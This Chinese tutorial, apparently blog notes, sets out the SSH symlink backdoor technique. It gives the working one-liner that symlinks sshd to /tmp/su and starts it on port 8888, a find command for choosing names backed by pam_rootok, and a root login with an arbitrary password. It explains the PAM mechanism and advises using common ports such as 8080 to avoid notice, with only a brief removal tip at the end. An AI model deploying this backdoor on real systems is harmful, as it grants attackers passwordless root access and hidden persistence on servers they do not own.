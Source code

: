 #### SSH 软连接
利用前提：ssh配置中开启了PAM进行身份验证
查看是否使用PAM进行身份验证：`cat /etc/ssh/sshd_config|grep UsePAM`
![](https://img-blog.csdnimg.cn/e5694c052ecc485ca8b1693abe4af640.png)

默认是为yes的，那么可以执行一句话后门：`ln -sf /usr/sbin/sshd /tmp/su;/tmp/su -oPort=8888`
注意：软链接的路径不是绝对的，但名字不是随便命名的，使用命令`find /etc/pam.d|xargs grep "pam_rootok"`，出现的则可以用作软链接名称
![](https://img-blog.csdnimg.cn/4b11bbf18a3249d195edae7d7534b14d.png)

最后通过`ssh root@192.168.111.128 -p 8888`，随便输入密码成功连接
![](https://img-blog.csdnimg.cn/e1c68d245ab046ed8b1cc4bb3bcddcdc.png)


原理：
am_rootok.so主要作用是使得uid为0的用户，即root用户可以直接通过认证而不需要输入密码
我们查看`/etc/pam.d/su`文件中，我们可以看到使用了该模块，这也是为什么root用户切换至普通用户不需要密码的原因
![](https://img-blog.csdnimg.cn/be8d9f08fc5b466bab5432afaeb6ad7a.png)

若sshd服务中开启了PAM认证机制(默认开启)，当程序执行时，PAM模块则会搜寻PAM相关设定文件，设定文件一般是在`/etc/pam.d/`。若关闭则会验证密码，无法建立软链接后门
当我们通过特定的端口连接ssh后，应用在启动过程中就会去找到配置文件，如：我们的软链接文件为`/tmp/su`，那么应用就会找`/etc/pam.d/su`作为配置文件，那么就实现了无密登录

优点：能够绕过一些网络设备的安全流量监测，但是本地在查看监听端口时会暴露端口，建议设置成8081，8080等端口
排查技巧：进程、端口都可以发现异常， kill -s 9 PID 结束进程即可清除后门

参考：[SSH软链接后门利用和原理](https://blog.csdn.net/Jeeseen123/article/details/119865965)
